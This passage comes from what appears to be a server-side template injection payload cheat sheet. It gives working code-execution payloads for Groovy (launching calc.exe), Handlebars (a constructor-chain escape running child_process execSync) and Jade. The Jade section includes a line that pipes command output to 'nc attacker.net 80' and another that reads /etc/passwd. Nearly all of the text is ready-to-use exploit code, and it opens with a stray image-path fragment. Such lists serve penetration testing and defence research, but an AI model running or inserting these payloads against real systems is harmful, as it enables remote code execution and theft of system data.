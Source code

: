 ```groovy
${ new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x") }
```

---

## Handlebars

[Official website](https://handlebarsjs.com/)
> Handlebars compiles templates into JavaScript functions.

### Handlebars - Command Execution

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

---

## Jade / Codepen

[Official website](https://codepen.io/)
> 

```python
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

```javascript
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```

---